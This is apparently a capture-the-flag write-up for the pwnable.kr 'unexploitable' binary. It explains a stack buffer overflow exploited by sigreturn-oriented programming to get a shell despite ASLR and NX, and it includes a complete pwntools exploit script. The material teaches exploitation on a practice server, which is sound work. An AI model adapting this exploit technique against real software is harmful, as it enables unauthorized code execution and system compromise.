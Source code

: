 
# unexploitable

First lets see what we are working on

```c
#include <stdio.h>
void main(){
        // no brute forcing
        sleep(3);
        // exploit me
        int buf[4];
        read(0, buf, 1295);
}
```

Seems like a simple challenge, We have a buffer of 4 integers, but we can reads 1295 bytes into it.
So lets overflow the buffer and override the return address!
but, what should we put in there?

![checksec.png](images/checksec.png)

Problems:
- ASLR enabled which means we cannot jump to our own buffer cause its address is unkown
- NX is enabled, which means even if we found a way to leak an address in the stack, we cant put shellcode and jump

So in this case we have to find a gadget!
I first thought maybe we can leak libc and jump to system, but after running `ROPGadget` I quickly saw:

![syscall_gadget.png](images/syscall_gadget.png)

Its a really good gadget for us, but we still cant control any register,
In order to run a shell, we need to control `rax` and  `rdi`

First i tried to figure out how can i get arbitrary syscall, which means i need to control `rax`
this part wasnt that hard, lets figure how to override the return address:

![ret_override.png](images/ret_override.png)

![finding_offset.png](images/finding_offset.png)

So we need to put 24 bytes, and the next 8 bytes will be the ret.
Now we can do something like that:

`24 bytes -> Address to main -> Address to syscall gadget`

Why are we umping to main again?
Since `rax` is the return value in 64bit calling convention,
We can re-run main, but now main return address is the syscall gadget,
in main we are calling for read, so the amount of bytes we will put in this read, will be `rax`

Now we can call any syscall we want, but we have control only over the stack and not the registers..
Sounds like a perfect time to call `Sigreturn` !

So our first payload needs to be:
`24 bytes -> Address to main -> Address to syscall gadget -> sigreturn frame`

And since we are jumping to main again, the second payload is:
`15*'a'`

The sigreturn frame looks like:
```python
frame.rax = 59
frame.rdi = ??
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = syscall_gadget
```

We are close, we just need to figure out how can we find and address which points to `/bin/sh`
I ran: 
![memory_map.png](images/memory_map.png)
and then:
![finding_string.png](images/finding_string.png)
And i found this string in our binary:
![found_string.png](images/found_string.png)

So we can just create a symlink from `/bin/sh` to `8` and then we can put in `rdi` the address  `0x600036` 

and we won!

```python
#!/usr/bin/python3

from pwn import *
import time

context.arch = 'amd64'
binary = ELF("./unexploitable")

syscall_gadget  = 0x400560
read_addr = binary.sym['main']
size = 24

frame = SigreturnFrame(kernel='amd64')

  
frame.rax = 59
frame.rdi = 0x600036
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = syscall_gadget

s = ssh(host="pwnable.kr", port=2222, user='unexploitable', password='guest')
context.ssh_session = s
s.set_working_directory()

unexploitable_link = SSHPath('unexploitable')
unexploitable_link.symlink_to('/home/unexploitable/unexploitable')

sh = SSHPath('8')
sh.symlink_to('/bin/sh')

p = s.process(["./unexploitable"])

payload = b'a'*size + p64(read_addr) + p64(syscall_gadget) + bytes(frame)
p.sendline(payload)
time.sleep(5)

p.sendline(b'a'*14)
p.interactive()
```

![win.png](unexploitable/images/win.png)